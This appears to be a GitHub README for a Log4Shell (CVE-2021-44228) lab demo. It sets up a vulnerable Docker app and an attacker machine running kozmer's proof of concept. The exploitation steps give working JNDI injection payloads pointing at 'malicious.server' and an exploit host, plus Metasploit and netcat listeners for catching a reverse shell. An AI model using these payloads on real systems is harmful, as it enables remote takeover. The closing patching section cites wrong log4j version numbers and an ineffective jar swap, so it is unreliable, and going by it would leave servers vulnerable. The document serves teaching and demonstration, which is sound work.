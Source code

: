 # Log4j Vulnerability
Log4j vulnerability demo for CVE-2021-44228. <br>
It is based on proof of concept demo by Kozmer and few modifications were made such as adding python and bash to docker to trigger meterpreter.
A new Application was re-built using same POC demo with new log4j libraries 
Kozimer's POC Github Link: https://github.com/kozmer/log4j-shell-poc

The application is vulnerable as it is logging username using Log4j using vulnerable log4j api library.

Logger logger = LogManager.getLogger(com.example.log4shell.log4j.class); </br>
logger.error(userName);</br>
out.println("&#60;code&#62; the password you entered was invalid, &#60;u&#62; we will log your information &#60;/u&#62; &#60;/code&#62;");</br>

As vulnerable application is logging invalid usernames, it is as easy as sending maliciously crafted JNDI lookup as username and malicious.server hosts a malicious Jar file that can create a reverse shell
Username: ${jndi:ldap://malicious.server/Exploit}

<br>
<br>
<br>

# Vulnerable Application setup instrutions(Non docker):

1)Pull/download the vulnerable application from the Github repo which is a modified version of kozmer's Repo:

    Vulenerable machine: https://github.com/sudesh0sudesh/log4jDemo_vulnerable

    Ref:https://github.com/kozmer/log4j-shell-poc

2) Install docker on your system.

   Linux: You can install it by executing the command(sudo apt install docker).
   Windows : Download Docker Desktop application.

3) Traverse into the folder containing the vulnerable application where you can see the docker file.

   To traverse you can use cd in both the operating systems.

4) Execute the below command to create a docker_image.

   Command: docker build . -t &#60;Image_name&#62;

5) Execute the below command to execute the docker_image.

    Command: docker run --network host  &#60;Image_name&#62;





# Setting up of Exploit machine:

1)Pull/download the exploit code from the Github repo:
 
   https://github.com/kozmer/log4j-shell-poc

2) The exploit was built using java 8, Download java-8u20

    https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html

3) Extract the java application and copy the JDK folder to log4j folder where you can see poc.py file.

    Commands: tar -xf jdk-8u20-linux-x64.tar.gz
             cp -R jdk1.8.0_20  &#60; log4j folder where you can see docker file;

4) Install the requirements needed as the process was automated using a python script that uses colorama(to display colored text) and argparse to read inputs from arguments.

    Commands:   pip install colorama argparse

5) Both Netcat and Metasploit can be used for listing reverse_tcp connections.

        Metasploit installation instructions can be found using the below url

        URL: https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers

        Netcat can be installed on linux using the below command.
        Command: Sudo apt install netcat

6) Allow the port that you want to allow connections for Ufw and let's call that port as Metasploit_listening_PORT.

    Command: ufw allow  &#60;Metasploit_listening_PORT&#62;

7) Start listening for connections on using reverse_tcp handler on metasploit.
   
    Commands:
        msfconsole -qa(Just to avoid banner).
        use /exploit/multi/handler
        set LHOST &#60;Exploit_Host_IP&#62;
        set LPORT &#60;Metasploit_listening_PORT&#62;
        exploit
    You can do the same thing using netcat.

    nc -lvnp &#60;Metasploit_listening_PORT&#62;

8) Traverse to the folder where poc.py file is present and execute the below command.

     Command: python3 poc.py --userip &#60;Exploit_Host_IP&#62; --webport &#60;Web_PORT&#62; --lport &#60;Metasploit_listening_PORT&#62; 

     Web_PORT can be any port greater than 5000, just to avoid conflicts.
     After the execution of poc.py you will find the JNDI lookup that should be passed as input on terminal.



# Exploitation Procedure/Steps:    

1) Visit the vulnerable webapplication via url.

    http://Vulnerable_machine_IP:8080

2) Now pass JNDI lookup as username and vulnerable application is logging username field on server side.
    
    ${jndi:ldap://Exploit_Host_IP:1389/a}

3) Now if we check metasploit or netcat we will find the reverse shell.


# Patching

1) Vulnerable application is using a log4jcore api version 1.4 which was vulnerable.

2) Download the log4j versions that are greater than 1.7 from the below link.
       
    https://logging.apache.org/log4j/2.x/download.html
    

3) Let's Extract the log4shell-1.0-SNAPSHOT.war and replace the log4j_api_1.4 library with log4j_api_1.7
 
    Path for libraries: log4j-shell-poc-main\target\log4shell-1.0-SNAPSHOT\WEB-INF\lib

4) Rebuild the log4shell-1.0-SNAPSHOT.war using jar which was installed as part of jdk.

    Command: jar -cvf log4shell-1.0-SNAPSHOT.war  *

5) Let's rebuild the docker image with modified application.

    Command: docker build . -t &#60;Image_name&#62;

6) Let's run the modified docker image using the below command.

    Command: docker run --network host  &#60;Image_name&#62;

7) For the sake of this demo, I have already created a non vulnerable machine and stored in my github.

    Non Vuln machine: https://github.com/sudesh0sudesh/Log4jDemo_nonvuln
